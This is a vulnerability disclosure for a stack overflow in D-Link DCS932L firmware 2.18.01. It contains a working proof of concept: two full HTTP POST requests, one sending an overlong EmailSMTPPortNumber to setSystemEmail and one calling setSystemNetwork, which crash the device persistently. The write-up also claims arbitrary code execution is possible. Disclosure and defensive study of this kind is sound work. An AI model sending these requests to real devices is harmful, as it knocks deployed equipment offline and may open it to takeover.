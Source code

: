 # D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `alphapd` binary:

In the router's `setSystemEmail` function, `EmailSMTPPortNumber` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `EmailSMTPPortNumber` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `setSystemNetwork` function, It calls the process `mail`.

`alphapd->lan.sh->schedule->mail`

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/4.png" style="zoom:60%;" /></div>

In `mail` binary:

In `main` function, the initial input will be extracted. Eventually, the initial input will cause stack overflow.

<div  align="center"><img src="./images/5.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:60%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `EmailSMTPPortNumber`, in `setSystemEmail`
* visit the `setSystemNetwork`



## PoC

We set `EmailSMTPPortNumber` as **aaaaa......** , in `setSystemEmail`

```http
POST /setSystemEmail HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 779
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/email.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=email.htm&ReplyErrorPage=errreml.htm&EmailScheduleEnable=1&EmailScheduleDay=2&EmailSMTPServerAddress=192.168.1.1&EmailSMTPPortNumber=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&EmailSenderAddress=pengjiaqian%40iie.ac.cn&EmailReceiverAddress=pengjiaqian%40iie.ac.cn&EmailUserName=pjqwudi&EmailPassword=pjqwudi&EmailTLSAuthentication=0&EmailScheduleMode=0&EmailScheduleInterval=300&ConfigSystemEmail=Save
```

visit the `setSystemNetwork`

```http
POST /setSystemNetwork HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 238
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/network.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=network.htm&ReplyErrorPage=errrnet.htm&SecondHTTPPortEnable=3&IPAddressMode=4&DNSIPAddress1=&DNSIPAddress2=&SecondHTTPPort=80&UPnPEnable=0&UPnPPortForwarding=0&BonjourEnable=1&BonjourName=DCS-932L&ConfigSystemNetwork=Save
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>
